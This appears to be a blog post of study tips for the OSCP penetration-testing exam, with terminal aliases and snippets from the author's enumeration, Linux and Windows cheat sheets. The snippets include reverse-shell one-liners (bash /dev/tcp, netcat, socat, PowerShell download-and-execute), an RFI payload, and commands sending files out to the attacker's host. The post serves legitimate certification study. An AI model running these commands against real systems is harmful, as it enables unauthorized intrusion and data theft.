

# Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you to pass your OSCP exam:

## 1. Tame your terminal

Export variables and set aliases in `~/.bashrc` for commands that you will frequently. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your PWK virtual machine using VMWare's shared folders feature. Use the following alias to conveniently mount the shared drives inside of the virtual machine: 
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	After you've finished a machine and changed the `targ` variable, use `source` to reload `.bashrc` for the current session:
	```
	source ~/.bashrc
	```
	Example: use these variables to exploit an RFI vulnerability (the unicorns of web application hacking):
	```
	curl "http://$targ/vuln_page.php?file=http://$tun0:8888/payload.php"
	```
		
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use this alias to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~17,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:



and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 documents as you progress through the PWK exercises and lab machines. The following are snippets from the three cheat sheets that I created:

	1. An enumeration cheat sheet:
```
PORT SCAN
=========
sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

SERVICE ENUMERATION
===================
21 FTP
22 SSH
	* OpenSSH <= 7.7 has username enumeration vulnerability
		* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
			* source: https://github.com/BlackDiverX/ssh-user-enumeration
		* python 45939.py $targ root
	* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
		* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
25 SMTP
	* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
	* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
	* shellshock RCE vulnerability exists for postfix smtp server w/procmail
		* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
...
```

	2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:

```
SHELLS
======
* bash -i >& /dev/tcp/$tun0/4444 0>&1
* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
* nc -e /bin/bash $tun0 4444
* nc -c /bin/bash $tun0 4444
* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
	* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
	* netcat shell for nc without -e or -c
	* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
...

DOWNLOAD FILES TO TARGET
========================
* scp $file $user@$targ:~/$file
* curl http://$tun0:8888/$file -o /tmp/$file
* wget http://$tun0:8888/$file -O /tmp/$file
* axel http://$tun0:8888/$file -o /tmp/$file
...

CRONJOBS
========
* use pspy to view short-lived processes
* check cron log file for cronjobs in execution
	grep "CRON" /var/log/syslog*
* list all /etc/cron files
	ls -lhra /etc/cron*
* check /etc/crontab- sometimes sysadmins put tasks
* users can create cronjobs with crontab -e
	* without adequate permissions we cannot view other users' crontabs
	* crontabs are stored in /var/spool/cron/crontabs/$user
...
```

	3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:
	
```
SHELLS
======
* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
* nc.exe $tun0 4444 -e cmd.exe
* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
...

UPLOAD FILES TO ATTACKER
========================
* nc -nvlp 6666 > $file
	* to receive
* nc.exe $tun0 6666 -w 3 < $file.out
* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
	* useful for cases without '<'
* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
* sudo impacket-smbserver smb_share $directory
	* copy $file.out \\$tun0\smb_share\
...

GENERAL PRIV ESC
================
* whoami /all
	* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
		* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
* net localgroup Administrators
	* shows who is inside Administrators group
* dir /b /s *.ext
	* search for files with file extension
* dir /r
	* view alternate data streams
* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	* review user's powershell history
...
```
Good luck!